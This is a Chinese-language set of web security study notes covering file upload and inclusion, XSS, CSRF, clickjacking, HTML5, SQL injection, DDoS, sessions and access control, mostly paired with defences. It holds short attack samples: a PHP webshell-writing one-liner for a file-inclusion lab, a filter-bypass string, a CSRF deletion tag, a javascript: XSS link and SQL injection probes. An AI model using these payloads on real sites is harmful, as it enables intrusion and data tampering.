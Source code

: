 ```yaml
---
title: web安全总结
author: 阿航
date: 2020-10-1 14:10:00 +0800
categories: [网络安全,Web]
tags: web安全

---
```




#### 文件上传漏洞:

- low 无验证文件格式，直接上传一句话木马。

- medium 限制jpeg格式，浏览器设置代理(本地ip或者其它)，用burp-suite拦截文件上传请求，修改content-type的值。

- high 通过文件后缀名来限制上传文件类型。

  ------

  

#### 文件包含漏洞：

- 本地文件包含`(LFI) e.g.`   ?page=`index.php` 等等

  1.`low`低安全级别：通过`edjpgom` 工具将

  ```
  <?fputs(fopen("shell20.php","w"),'<?php eval($_POST[yangge]);?>') ?>
  ```

  代码写入图片中，先上传图片再通过文件包含生成`shell20.php` 文件,菜刀连接此文件获取`webshell` 。

  2.`medium` 中安全级别， 会删除`http`://, 此时需写成`hthttp://tp://`形式。
  3.`high` 将包含文件名写死。

- 远程文件包含`(RFI) e.g.`  ？page=`/www.baidu.com/var/dvw`等。



### XSS跨站脚本攻击

>本质上是一种`“HTML注入”`，用户的数据被当成了`HTML`代码的一部分来执行，从而混淆了原本的语义，产生了新的语义。
>
>1. 反射型XSS
>2. 存储型XSS
>3. 安全的编码函数
>
>* HtmlEncode
>
>将字符转换成HTMLEntities,对应的标准为ISO-8859-1。
>
>* JavascriptEncode
>
>与HtmlEncode编码方法不同，需要使用" \ "对特殊字符进行转义。在对抗XSS时，要求输出的变量必须                在引号内部。
>
>*****
>
>
>
>4. 防御XSS
>
>|      | HTML标签输出         | HTML属性输出              | <script>标签输出                  | 事件中输出                                   | CSS中输出                                                    | 地址中输出 |
>| ---- | -------------------- | ------------------------- | --------------------------------- | -------------------------------------------- | ------------------------------------------------------------ | ---------- |
>| 例   | `<div>$var</div>`    | `<div name="$var"></div>` | `<script> varx="$var"; </script>` | `<a href=# onclick="funcA('$var')">test</a>` | 略(P100)                                                     | ...        |
>| 防御 | 对变量使用HtmlEncode | 对变量使用HtmlEncode      | 使用JavascriptEncode              | 使用JavascriptEncode                         | 禁止用户可控制的变量再`<style>`标签,“HTML标签的style属性”以及“CSS文件”中输出 | ...        |
>
>地址中输出
>
>>```
>><a href = "$var" >test</a> 
>>```
>>
>>构造伪协议实施攻击:
>>
>>* ```
>>   <a href = "javascript:alert(1);" >test</a>
>>   ```
>> 
>>如果变量是整个URL,先检查变量是否以“http”开头，若不是则自动添加。
>
>5. 防御`DOM Based XSS`
>
>****



## 第4章 跨站点请求伪造(CSRF)

*****

### 4.1 CSRF简介

>1. 攻击者在自己的域中构造一个页面:
>
>   * ```
>     http://www.a.com/csrf.html
>     ```
>
>   * 内容为:
>
>   * ```
>     <img src ="http://blog.sohu.com/manage/entry.do?m=delete&id=156714243" />
>     ```
>
>   * 地址指向删除博客文章的链接，诱使目标用户访问该页面，图片标签会向服务器发送一次GET 请求，删除文章。
>

### 4.2 CSRF进阶

####        		1. 浏览器的cookie 策略

>  >*  Session Cookie（临时Cookie）
>  >* Third-party Cookie (本地Cookie)
>

#### 				2. P3P头

>  * 使`<iframe>,<script>`等标签在IE中不再拦截第三方Cookie的发送。
>

### 4.3 CSRF的防御

#### 						1. 验证码

#### 						2. Referer Check(防止图片盗链)

>>检查Referer是否合法来判断用户是否被CSRF攻击。
>>
>>缺陷:服务器并非什么时候都能取到Referer。

#### 						3. Anti CSRF Token

>  * 在URL尾部新增一个参数Token，要求生成足够随机，使用安全的随机数生成器。
>  * 为防止Token通过Referer的方式泄露，应该尽量将其放在表单中。把敏感操作GET改为POST，以form表单(或者ajax)的形式提交。
>
>*****



## 第5章 点击劫持(ClickJacking)

****

### 5.1 点击劫持(ClickJacking)

#### 		1. 概念

>  * 使用一个透明的，不可见的iframe覆盖在网页上，然后诱使用户在网页上操作，通过调整iframe页面的位置，使用户恰好点击在iframe页面的一些功能按钮上。

### 5.2 Flash点击劫持

### 5.3 图片覆盖攻击

>* XSIO(Cross Site Image Overlaying): 利用图片的style,或者能控制CSS。

### 5.4 拖拽劫持与数据劫持

>* 诱使用户从隐藏的不可见iframe中“拖拽”出攻击者希望得到的数据，然后放到攻击者能控制的另外一个页面中，从而窃取数据。

### 5.5 TapJacking(触屏劫持）

****



### 5.6 防御ClickJacking

  	#### 				1. frame busting

>>```
>>if (top.location != location) {
>>	top.location = self.location;
>>}
>>```
>>
>>通过上面代码禁止iframe的嵌套。
>>
>>缺陷：由于使用JavaScript写的，容易被绕过。
>>
>>解决该问题最好的方案是使用一个HTTP头。
>>
>>****
>
>****

#### 						2. X-Frame-Options

>>它有三个可选的值
>>
>>* DENY
>>* SAMEORIGIN
>>* ALLOW-FROM origin
>>
>>当值为DENY时，浏览器拒绝当前页面加载任何frame页面。
>>
>>若值为SAMEORIGIN，则frame页面的地址只能为同源域名下的页面。
>>
>>若值为ALLOW-FROM，则可以定义允许frame加载的页面地址。
>>
>>****
>
>****



## 第6章 HTML5 安全

*****

### 6.1 HTML5 新标签

#### 	     				1. iframe中的sandbox

>* `<iframe>`标签加载的内容被视为一个独立的源，其中的**脚本**被禁止执行，**表单**被禁止提交，**插件**被禁止加载，指向其它浏览对象的**链接**也会被禁止。
>
>* sandbox有以下几个属性
>
>* allow-same-origin: 允许同源访问
>* allow-top-navigation: 允许访问顶层窗口
>* allow-forms: 允许提交表单
>* allow-scripts: 允许执行脚本
>
>* iframe实例
>
>```
><iframe sandbox="allow-same-origin allow-forms allow-scripts"
>	src="http://......."</iframe>
>```

#### 		

#### 		2. Link Types: noreferre

>```
><a href="xxx" rel="noreferrer" >test</a>
>```
>
>标签指定了noreferrer后，浏览器在请求该标签的地址后不再发送Referer。

#### 						3. Canvas

****



### 6.2 其它安全

#### 						1. Cross-Origin Resource Sharing

>* Origin Header 用于标记HTTP发起的“源”，服务器端通过识别这个来判断浏览器的请求是否来自一个合法的“源”。

#### 						2. postMessage-跨窗口传递消息

>* postMessage允许每一个window对象往其他的窗口发送文本消息，从而实现跨窗口的消息传递。该功能不受同源策略限制。

#### 				3. Web Storage

>就像一个非关系型数据库，由Key-Value对组成，使用方法为:
>
>```
>设置一个值: window.sessionStorage.setItem(key,value);
>读取一个值: window.sessionStorage.getItem(key);
>```
>
>* Session Storage，关闭浏览器就会失效。
>* Local Storage，数据会一直存在。

****



## 第7章 注入攻击

### 7.1 SQL注入

​		注入攻击的的两个条件:

>* 用户能够控制数据的输入。
>* 原本要执行的代码拼接了用户的输入。

#### 						1. 盲注

>* 盲注验证：构造简单的条件语句，根据返回页面是否发生变化，来判断SQL语句是否得到执行。
>
>* ```html
>  http://newspaper.com/items.php?id=2 and 1=2
>  ```
>```
>
>```
>* ```html
>  http://newspaper.com/items.php?id=2 and 1=1
>  ```
>```
>
>对比上面两个页面返回结果的差异，判断是否存在SQL注入漏洞。
>```

#### 						2. Timing Attack

>* 利用BENCHMARK()
>



### 加密算法与随机数

#### 加密算法的选择和使用上小结：

1. 不要使用`ECB`模式
   * `ECB`每个分组之间相互独立
   * 缺陷：只需对调任意分组的密文，在经解密后所得明文的顺序也是经过对调的。

2. 不要使用流密码(例如`RC4`)
3. 使用`HMAC-SHA1`代替`MD5`(甚至代替`SHA1`)
4. 不要使用相同的key做不同的事情
5. salts与IV需要随机产生
6. 不自己实现加密算法，尽量使用安全专家已经实现好的库
7. 不依赖系统的保密性

****



## DDOS简介

>又称分布式拒绝服务。
>
>主要有`SYN flood`，`UDP flood`，`ICMP flood`等等。
>
>**SYN flood 攻击过程**
>
>1. 首先伪造大量的源IP地址(伪造地址)，向服务端发送大量的`SYN`包。
>2. 服务器端返回`SYN/ACK`包，而伪造的IP并不会应答，服务器端收不到伪造IP的回应，会重试3~5次并等待一个`SYN Time`的时间。
>3. 攻击者大量发送这种请求，服务器就会消耗很多的资源，最后导致正常请求无法完成，拒绝服务。
>
>**对抗方法**
>
>​	`SYN Cookie`：为每一个IP地址分配一个`"Cookie"`，统计每个IP地址的访问频率，若短时间内接受大量来自同一IP地址的数据包，则认为受到了攻击并	将来自这个地址的包丢弃。
>
>*****
>
>

## 应用层拒绝服务攻击

## 应用层DDOS

>**CC攻击（Challenge Collapasar）**
>
>原理：对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务端资源的目的。
>
>应对策略：在应用中针对每个"客户端"做一个请求频率的限制，即通过IP地址和Cookie定位客户端，若请求频繁，则将所有请求都定位到一个出错页面。
>
>该策略的缺陷：攻击者使用大量的代理服务器或者傀儡机来隐藏真实IP地址，不断变换IP地址，就可以绕过服务器对单个IP地址请求频率的限制。

## 资源耗尽攻击

>**Slowloris攻击**
>
>原理：以极低的速度往服务器发送HTTP请求，导致所有的Web Server连接数被恶意占用，从而无法接受新的请求，导致拒绝服务。
>
>****

## PHP安全

 **文件包含漏洞**

>1. 本地文件包含(Local File Inclusion),简称`LFI`.
>
>  * `open_basedir`能够限制在某个特定目录下`PHP`能打开的文件，从而抵御目录遍历漏洞。
>  * 尽量避免用户可以控制的包含动态的变量。
>
>2. 远程文件包含
>
>  * 若配置选项allow_url_include为ON,则include/require函数可以加载远程文件。

### 第9章 认证与会话管理

#### 		1. 多因素认证

#### 		2. Session 认证

>生成`SessionID`时，需要保证足够的随机性，比如采用伪随机数生成算法。

#### 		3.`Session Fixation`攻击

>* 原理: 攻击者拥有一个未认证的`SessionID`,然后交由用户认证，认证完后服务器没有更新`SessionID`的值，然后攻击者就可以通过该ID登录用户的账户。
>* 解决方法: 登陆完成后，更新`SessionID`的值。

#### 		4. Session保持攻击

>* 原理: 攻击者通过不停的访问(刷新页面)，让`Session`一直"活"着，永久使用用户的账户。
>* 解决方法: 在一定时间后，强制销毁Session。

#### 		5. 单点登录(SSO)

>* 用户只用登录一次就可以访问所有的系统。
>
>****



### 第10章 访问控制

>访问控制:
>
>* 基于URL的访问控制
>* 基于方法(method)的访问控制
>* 基于数据的访问控制

#### 		1. 垂直权限管理

>* 基于角色的访问控制(Role-Based Access Control) 简称RBAC。
>* 系统中事先定义出不同的角色，不同的角色拥有不同的权限。

#### 		2.水平权限管理

>* 若A用户访问了B用户的的数据，则称发生了越权访问，这种问题就称为“水平权限管理问题”。

#### 		3. OAuth

>* 概念: 在不提供用户名和密码的情况下，授权第三方应用访问web资源的安全协议。
>
>****







